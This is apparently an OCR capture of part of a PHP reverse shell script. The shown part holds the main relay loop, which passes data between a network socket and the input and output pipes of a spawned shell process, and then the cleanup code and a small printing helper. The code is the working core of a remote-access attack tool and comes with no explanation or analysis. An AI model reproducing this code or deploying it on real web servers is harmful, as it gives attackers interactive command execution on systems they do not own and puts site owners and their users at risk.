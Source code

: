 ```php

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```
